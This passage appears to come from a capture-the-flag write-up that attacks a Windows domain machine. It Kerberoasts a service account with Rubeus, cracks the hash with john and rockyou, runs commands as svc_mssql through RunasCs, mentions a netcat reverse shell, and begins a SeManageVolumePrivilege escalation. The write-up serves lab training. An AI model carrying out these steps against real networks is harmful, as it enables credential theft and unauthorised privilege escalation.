 This user is indeed kerberoastable. We don't have any credentials, so this needs to be done on the domain itself. We can use `Rubeus.exe` for this.

```
C:\Windows\Tasks>.\Rubeus.exe kerberoast /outfile:hashes.txt
```

Afterwards, we can transfer this back to our machine and crack it:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
trustno1         (?)     
1g 0:00:00:00 DONE (2023-07-08 15:11) 50.00g/s 51200p/s 51200c/s 51200C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The `svc_mssql` user is not part of the Remote Management Group, so we have to get a shell via `RunasCs.exe`.&#x20;

```
C:\Windows\Tasks>.\RunasCs.exe svc_mssql trustno1 whoami
.\RunasCs.exe svc_mssql trustno1 whoami
access\svc_mssql
```

Then, download another copy of `nc64.exe` and execute it to get another reverse shell:

<figure><img src="../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

### SeManageVolumePrivilege --> WerTrigger

This user has the SeManageVolumePrivilege enabled:

```
C:\Users\svc_mssql\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled
```
